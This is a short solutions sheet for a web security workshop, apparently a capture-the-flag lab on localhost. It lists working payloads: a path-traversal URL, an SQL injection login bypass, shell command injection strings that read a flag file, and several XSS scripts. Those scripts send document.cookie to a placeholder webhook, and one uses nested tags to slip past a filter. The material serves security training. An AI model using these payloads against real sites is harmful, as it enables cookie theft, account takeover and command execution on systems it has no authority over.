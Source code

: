 # Web Security Workshop solutions

## LFI:

Visit http://localhost:3001/?loc=..%2f..%2fdocument%2finsp3ct0r_g4dg3t_456afbc.ht.htmlml

## SQLi:

Username: admin'; --
Password: anything

## Reflection:
```html
<script>
document.location.href= "<Your webhook site>?c=" + document.cookie;
</script>
```

# OS Command injection
To list the folder
`; ls #!`

To read the flag file
`; cat flag.txt #!`

## Getting the staff cookies:
```html
<script>
document.location.href= "<Your webhook site>?c=" + document.cookie;
</script>
```

## Getting the admin:
```html
<scr<script>ipt>
document.location.href= "<Your webhook site>?c=" + document.cookie;
</scr</script>ipt>
```
